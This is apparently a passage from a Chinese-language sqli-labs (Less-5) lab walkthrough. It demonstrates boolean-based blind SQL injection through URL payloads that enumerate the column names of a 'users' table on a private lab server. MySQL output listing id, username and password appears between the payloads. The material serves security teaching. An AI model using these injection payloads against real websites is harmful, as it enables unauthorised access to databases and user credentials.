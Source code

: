 `http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%202,1))%3E0)--+`

![](assets/markdown-img-paste-20180418171743591.png)

说明有3个列

```
mysql> select column_name from information_schema.columns where table_name='users';
+-------------+
| column_name |
+-------------+
| id          |
| username    |
| password    |
+-------------+
3 rows in set (0.00 sec)
```

判断第一个列名的长度

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1))=2)--+`

![](assets/markdown-img-paste-20180418172054977.png)

判断第一个列名的字符串是多少

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1),1,1)='i')--+`

![](assets/markdown-img-paste-20180418172217705.png)
